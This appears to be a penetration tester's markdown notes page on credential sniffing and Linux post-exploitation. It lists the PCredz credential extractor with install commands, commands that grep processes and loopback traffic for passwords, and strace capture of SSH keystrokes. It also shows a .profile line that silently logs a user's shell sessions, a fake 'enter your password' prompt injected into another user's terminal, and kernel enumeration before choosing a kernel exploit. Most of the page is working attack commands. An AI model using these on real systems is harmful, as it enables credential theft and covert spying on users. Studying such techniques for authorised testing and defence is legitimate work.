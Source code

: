 
- [PCredz](https://github.com/lgandx/PCredz) *"extracts Credit card numbers, NTLM(DCE-RPC, HTTP, SQL, LDAP, etc), Kerberos (AS-REQ Pre-Auth etype 23), HTTP Basic, SNMP, POP, SMTP, FTP, IMAP, etc from a pcap file or from a live interface."*

Install and run with [[Docker]]
```bash
git clone https://github.com/lgandx/PCredz.git
docker build . -t pcredz
docker run --net=host -v $(pwd):/opt/Pcredz -it pcredz
```
## Sniffing Services

```bash
watch -n 1 "ps -aux | grep -i pass"
sudo tcpdump -i lo -A | grep -i "pass"
```

SSH Sniffing [infosecmatter blog on ssh sniffing](https://www.infosecmatter.com/ssh-sniffing-ssh-spying-methods-and-defense/)
```bash

# Readable strace horizonal output 
strace -e trace=read -p <PID> 2>&1 | while read -r a; do grep '^read.*= [1-9]$' <<<"$a" | cut -d\" -f2 | tr -d '\n'; done

# Without strace
echo 'exec script -a -f -q -c /bin/bash ~/.ssh.log' >>/home/$user/.profile
tail -f /home/$user/.ssh.log
```

Console character injection
```bash
ps -ax -o pid,tty,cmd | grep 'ssh '
# $PTSNUM from the command above willbe used to inject to a specific /dev/pts
# $PID pts/$NUMBER ssh root@poorroot
# For example:
# 1234 pts/3 ssh root@poorroot
echo -en "\r\nWARNING: System will reboot in 60 seconds.\r\nTo abort, enter your password: " >>/dev/pts/$PTSNUM
```

## Kernel Exploits

Enumerate Linux Distro flavor OS and the Kernel version. Match the compiler with the architecture of our target.
```bash
# check kernel level
uname -a
arch
lsmod # Loaded kernel modules
/sbin/modinfp $module # information of kernel modules
cat /etc/issue
lsb-release -a
# Searchsploit o'clock!
# Warning either compile on box if in scope or replicate context: libaries, versioning, etc 
```
